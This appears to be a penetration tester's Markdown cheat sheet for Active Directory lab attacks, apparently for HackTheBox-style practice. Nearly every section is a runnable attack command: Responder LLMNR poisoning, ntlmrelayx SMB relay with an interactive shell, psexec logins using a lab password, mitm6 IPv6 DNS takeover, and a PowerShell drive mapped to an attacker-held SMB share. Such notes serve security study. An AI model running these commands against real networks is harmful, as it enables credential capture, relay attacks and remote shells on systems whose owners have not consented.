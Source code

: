 
<h2> Initial Attack Vectors</h2>
- [ ] LLMNR Poisoning [[01 LLMNR Poising]]
```
sudo responder -I eth0 -dwP
```

```
sudo responder -I eth0 -dwPv
```

```
\\<Attacker_IP>
```

Make sure that SMB and HTTP is on


<hr>


- [ ] Capturing NTLMv2 Hashes with Responder [[1.1 Cracking Captured Hashes]]
```
hashcat --help | grep NTLM
```


<hr>


- [ ] SMB Relay Attack [[02 SMB relay attack]]
```
nmap --script=smb2-security-mode.nse -p445 <ip_address>
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```


Swipe Entire Network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```


 configuration changes to the responder
 ```
 nano /etc/responder/Responder.conf
```

```
SMB = OFF
HTTP = OFF
```

responder
```
sudo responder -I eth0 -dwPv 
```


NTLM relay (i.e. make sure to add the IP address of the host in the target.txt)
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```

If want interactive shell
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```

```
nc 127.0.0.1 <port number>
```



<hr>


- [ ] Gaining Shell [[03 Gaining shells]]
```
psexec.py MARVEL/fcastle:'Password1'@192.168.17.140
```


<hr>


- [ ] IPV6 DNS Takeover via MIM6 [[04 IPv6 Attacks]]


Before running the above command we have to run the ntlm relay
```
ntlmrelayx.py -6 -t ldaps://192.168.17.139 -wh fakewpad.marvel.local -l lootme 
```


```
mitm6 -d marvel.local
```

<hr>

- [ ] Passback Attacks
```
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/
```




## SMB Sever

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```



## Neo4j
if forget the password of neo4j than simply delete the file at this location
```
locate neo4j | grep auth
```

